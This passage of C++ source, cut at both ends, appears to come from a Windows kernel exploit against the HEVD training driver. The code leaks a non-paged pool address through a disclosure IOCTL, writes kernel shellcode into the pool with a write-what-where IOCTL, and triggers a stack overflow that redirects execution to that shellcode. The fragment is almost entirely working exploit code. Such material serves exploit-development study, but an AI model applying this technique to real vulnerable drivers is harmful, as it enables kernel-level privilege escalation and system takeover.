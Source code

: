 ```C++
            IOCTL_MEM_DISCLOSURE,
            NULL,
            0,
            buffer,
            buffer_size,
            NULL,
            NULL
        );

        uint8_t* leak_address = *(uint8_t**)((uint64_t)buffer + 0x210);
        non_paged_pool = (uint8_t*)((uint64_t)leak_address & (uint64_t)0xfffffffffffff000);

        printf("Done! Non paged pool at %p\n", non_paged_pool);
    }

    {
        const uint32_t IOCTL_WRITE_WHAT_WHERE = 0x22200b;
        uint8_t* kernel_shellcode = get_kernel_shellcode_address();
        uint32_t kernel_shellcode_size = get_kernel_shellcode_size();

        printf("Writing %u bytes of shellcode to non-paged pool... ", kernel_shellcode_size);

        for (uint32_t i = 0; i < kernel_shellcode_size; i+=8) {
            uint64_t write_what_where[2] = {
                (uint64_t)kernel_shellcode + i,
                (uint64_t)non_paged_pool + i,
            };

            DeviceIoControl(
                hevdDevice,
                IOCTL_WRITE_WHAT_WHERE,
                write_what_where,
                0x10,
                NULL,
                0,
                NULL,
                NULL
            );
        }

        printf("Done!\n");
    }

    {
        const uint32_t IOCTL_STACK_OVERFLOW = 0x222003;
        const uint32_t buffer_size = 0x828;
        uint8_t buffer[buffer_size];

        for (uint32_t i = 0; i < buffer_size; i+=8) {
            *(uint64_t*)((uint64_t)buffer + i) = (uint64_t)non_paged_pool;
        }

        printf("Triggering overflow and hijacking control flow... ");

        DeviceIoControl(
            hevdDevice,
            IOCTL_STACK_OVERFLOW,
            buffer,
            buffer_size,
            NULL,
            0,
            NULL,
            NULL
```